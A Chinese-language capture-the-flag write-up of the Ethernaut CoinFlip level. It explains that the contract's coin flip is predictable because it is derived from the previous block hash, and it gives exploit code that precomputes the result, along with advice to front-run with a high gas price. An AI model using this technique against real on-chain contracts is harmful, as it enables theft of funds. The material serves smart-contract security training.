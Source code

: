 # CoinFlip
## Reference
[CoinFlip](https://ethernaut.openzeppelin.com/level/3)

[Sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/03-CoinFlip/CoinFlip.sol)

## 目标
1. 在10次之内猜出当前合约中硬币的正反面

## 分析
### block.number
```solidity
    function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```
1. 在猜正反环节
   1. 首先计算当前区块高度的哈希值：`uint256(blockhash(block.number - 1))`
   2. 哈希值除以固定值，得到预期的正反值
   3. 和输入的猜测值对比
2. `block.number`是递增并且全网公开的值

## 实现步骤
1. 部署合约
2. 链下获取当前的区块高度后，直接在链下按照合约逻辑计算正确答案
3. 计算出答案后，设置高`gasPrice`抢先交易
4. 持续 2，3 步骤，直到抢先成功赢得`Game`
```solidity
    function winGame() public payable {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        cf.flip(side);
        Assert.equal(cf.consecutiveWins(), 1, "Win once");
    }
```
